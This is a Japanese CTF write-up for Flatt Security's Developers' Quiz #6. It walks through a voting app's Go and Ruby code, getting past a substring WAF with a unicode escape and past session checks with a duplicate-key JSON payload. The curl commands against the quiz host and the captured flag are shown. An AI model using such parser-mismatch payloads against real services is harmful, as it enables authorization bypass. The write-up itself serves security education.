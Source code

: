 # Flatt Security Developers' Quiz #6

今回のアプリケーションは、簡単な投票アプリでした。アプリケーションの構成は Nginx → Go → Ruby の二重プロキシだった。名前からわかるように、Ruby のアプリケーションは `legacy` という名前のディレクトリに入っているので、おそらくよくある、他の言語で書かれたコードベースがあるけど開発体験をよくするためにアプリケーションの一部を他の言語で書き換え、一部の API はプロキシするよくあるアプリケーションの構成だろう。

普通に使って脆弱性を発見できるとは思わないので、とりあえずソースコードを読んでみると、Nginx は特におもしろいことが書かれてなかったです。Ruby 部分にはフラグあって、`/result` を使うと取得できる。ここでは認証が実装されていないので、おそらく Go の認証を突破すればよさそう。該当部分のコードは以下である。

```rb
post '/result' do
  d = request.body.read
  data = JSON.parse(d)
  username = data['username']
  candidate = users[username]

  if candidate
    json candidate: candidate
  else
    status 403
    json error: "User not found"
  end
end
```

そうすると Go の部分をみる。まず、waf という名前の関数が aru.

```go
func waf(data []byte) bool {
	return bytes.Contains(data, []byte("admin"))
}
```

`{ "name": "admin" }` は書けないが、[RFC 8259 Section 7](https://datatracker.ietf.org/doc/html/rfc8259#section-7) を読むと

```
char = unescaped /
    escape (
        %x22 /          ; "    quotation mark  U+0022
        %x5C /          ; \    reverse solidus U+005C
        %x2F /          ; /    solidus         U+002F
        %x62 /          ; b    backspace       U+0008
        %x66 /          ; f    form feed       U+000C
        %x6E /          ; n    line feed       U+000A
        %x72 /          ; r    carriage return U+000D
        %x74 /          ; t    tab             U+0009
        %x75 4HEXDIG )  ; uXXXX                U+XXXX

escape = %x5C              ; \
```

が書いてあるので、`{ "name": "\u0061dmin" }` は書けます。これだけでは解けないので続きを読みましょう。

```go
func handleSession(c echo.Context, data []byte) error {
	if waf(data) {
		return echo.NewHTTPError(http.StatusBadRequest, "Bad text detected")
	}

	sessionID := c.Request().Header.Get("Authorization")
	username, err := jsonparser.GetString(data, "username")
	if err != nil {
		return echo.NewHTTPError(http.StatusBadRequest, "username is required")
	}

	if _, exists := userSessions[username]; !exists {
		return echo.NewHTTPError(http.StatusUnauthorized, "Invalid session")
	}
	if userSessions[username] != sessionID {
		return echo.NewHTTPError(http.StatusUnauthorized, "Invalid session")
	}

	return nil
}
```

ここで `body` の `username` に対応する `sesion` が `Authorization` の値に一致しなければならない。ここで普通にアプリケーションにアクセスし、とりあえず適当に `southball`, `123` で登録する。

![ログイン画面のスクリーンショット](./Screenshot%20Login.png)

元々叩きたかった `/result` にプロキシするエンドポイントを読む。`bytes.NewBuffer(data)` で渡しているので、リクエストボディがそのまま渡されている。

```go
func postResult(c echo.Context) error {
	data, err := io.ReadAll(c.Request().Body)
	if err != nil {
		return echo.NewHTTPError(http.StatusInternalServerError, err.Error())
	}

	if err := handleSession(c, data); err != nil {
		return err
	}

	resp, err := http.Post("http://"+legacyHost+"/result", "application/json", bytes.NewBuffer(data))
	if err != nil {
		return echo.NewHTTPError(http.StatusInternalServerError, err.Error())
	}
	defer resp.Body.Close()
	body, err := io.ReadAll(resp.Body)
	if err != nil {
		return echo.NewHTTPError(http.StatusInternalServerError, err.Error())
	}

	return c.JSONBlob(resp.StatusCode, body)
}
```

今までわかったことをまとめると

- `waf` を突破する
- `handleSession` と突破する
  と、`/result` にアクセスできる。実際、先ほど登録したアカウントで一回投票して、`/result` を叩いてみるとこうなる。

```sh
$ curl -XPOST -H 'Authorization: 123' https://202312-giraffe-33ab414.quiz.flatt.training/result --data '{"username":"southball"}'
{"candidate":"Giraffe"}
```

`username` を `admin` にしたら `waf` で落ちる。

```sh
$ curl -XPOST -H 'Authorization: 123' https://202312-giraffe-33ab414.quiz.flatt.training/result --data '{"username":"admin"}'
{"message":"Bad text detected"}
```

`\\u0061dmin` にしたら `handleSession` で落ちる。

```sh
curl -XPOST -H 'Authorization: 123' https://202312-giraffe-33ab414.quiz.flatt.training/result --data '{"username":"\u0061dmin"}'
{"message":"Invalid session"}
```

ここで、最終的に解けるまであと一つのトリックが必要で、[JSON Interoperability Vulnerabilities の概要](https://techblog.securesky-tech.com/entry/2023/04/20/) という記事で説明されている。今回フラグを取得するためのペイロードは

```json
{ "username": "southball", "username": "\u0061dmin" }
```

である。Go では `username` が `"southball"` になり、Ruby では `username` が `"\u0061dmin"` になる。実際叩いてみると、

```sh
curl -XPOST -H 'Authorization: 123' https://202312-giraffe-33ab414.quiz.flatt.training/result --data '{"username":"southball","username":"\u0061dmin"}'
{"candidate":"Flatt{Secure X means the system is not secure}"}
```

になる。これで今回のクイズが解けた。
